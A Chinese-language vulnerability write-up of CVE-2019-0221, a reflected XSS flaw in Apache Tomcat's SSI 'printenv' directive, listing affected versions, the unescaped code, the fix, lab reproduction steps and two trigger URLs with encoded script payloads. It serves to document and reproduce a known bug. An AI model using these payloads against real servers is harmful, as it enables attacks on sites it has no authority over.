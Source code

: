 （CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS
======================================================

一、漏洞简介
------------

Apache
Tomcat在其SSI实现中存在漏洞，可用于实现跨站点脚本（XSS）。只有在启用SSI并使用"printenv"指令的情况下，才能利用此漏洞。

利用条件

-   必须在Apache Tomcat中启用SSI支持 -
    全局或特定Web应用程序。默认情况下不启用。
-   Web应用程序中必须存在具有"printenv"SSI指令的文件(通常为".shtml")。
-   攻击者必须能够访问该文件。

二、漏洞影响
------------

Apache Tomcat 9.0.0.M1版本至9.0.0.17版本、

Apache Tomcat 8.5.0版本至8.5.39版本

Apache Tomcat 7.0.0版本至7.0.93版本

三、复现过程
------------

### 漏洞分析

服务器端包含(SSI)是一些Web服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于SSI特定的环境变量，它们要么由用户设置，要么包含关于传入HTTP请求的信息。（请参阅此处的[完整列表](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html#Variables)）。"echo"指令打印出单个变量的值，而"printenv"指令打印出所有变量的值。这两个指令都输出HTML。Apache
Tomcat对于使用"echo"指令时正确地转义了XSS值，但对于"printenv"指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致XSS。比较"echo"参数中正确转义输出的[代码](https://github.com/apache/tomcat/blob/master/java/org/apache/catalina/ssi/SSIEcho.java)：

![](./.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId27.png)

与未对输出进行正确转义的"printenv"参数的代码相比：

![](./.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId28.png)

修复方法是添加如下[提交](https://github.com/apache/tomcat/commit/15fcd16)中所示的编码：

![](./.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId30.png)

### 漏洞复现

-   1.在Windows中安装Java运行时环境(JRE)。
-   2.下载有漏洞的Tomcat版本并解压。
-   3.在第19行修改conf\\context.xml文件，获得上下文权限（(这也可以在单个应用程序上执行，而不是全局执行）

```{=html}
<!-- -->
```
    Context privileged =“true”>

-   4.根据这里的[指令](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html)修改conf\\web.xml以启用SSI
    servlet(这也可以在单独的应用程序上完成，也可以是全局的)。
-   5.将以下代码放在"webapps / ROOT / ssi / printenv.shtml"中：

```{=html}
<!-- -->
```
    <html><head><title></title><body>
    Echo test: <br /><br />
    Printenv test: 
    </body></html>

-   6通过以下命令运行Tomcat：

```{=html}
<!-- -->
```
    cd bin
    catalina run

-   7.利用以下URL来触发XSS(可能需要使用Firefox)。观察正确转义的"echo"指令与无法正确转义的"
    printenv "指令之间的区别

```{=html}
<!-- -->
```
    http://www.0-sec.org:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E

    http://www.0-sec.org:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E

![](./.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId33.png)

![](./.resource/(CVE-2019-0221)ApacheTomcatSSIprintenv指令中的XSS/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/5310
